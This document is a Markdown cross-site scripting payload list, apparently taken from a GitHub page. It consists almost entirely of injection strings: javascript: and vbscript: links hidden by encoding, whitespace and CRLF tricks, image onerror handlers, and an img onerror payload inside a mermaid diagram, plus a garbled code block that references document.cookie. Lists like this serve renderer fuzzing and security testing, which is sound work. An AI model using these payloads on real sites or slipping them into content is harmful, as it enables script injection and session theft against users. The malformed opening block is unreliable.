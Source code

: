 ```.py "onmousemove='alert("XSS")'\\
print(document.cookie)
```

[a](javascript:confirm(1))

[a](javascript://www.test.com%0Aprompt(1))

[a](javascript://%0d%0aconfirm(1))

[a](javascript://%0d%0aconfirm(1);com)

[a](javascript:window.onerror=confirm;throw%201)

[a]: (javascript:prompt(1))

[a]:(?javascript:alert(1))    

[XSS](j    a   v   a   s   c   r   i   p   t:alert(1))

[XSS](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)
[XSS](vbscript:alert(document.domain))
[XSS](javascript:this;alert(1))
[XSS](javascript:this;alert(1&#41;)
[XSS](javascript&#58this;alert(1&#41;)
[XSS](Javas&#99;ript:alert(1&#41;)
[XSS](Javas%26%2399;ript:alert(1&#41;)


[XSS](�javascript:alert(document.domain&#41;)


![Escape SRC - onerror]("onerror="alert('ImageOnError'))

link: <a href="https://google.com" title="title">xss &lt;img onerror=alert(1) src=x></a>

 ```mermaid
  graph LR
      B-->D(<img onerror=location=`javascript\u003aalert\u0028document.domain\u0029` src=x>);
 ```

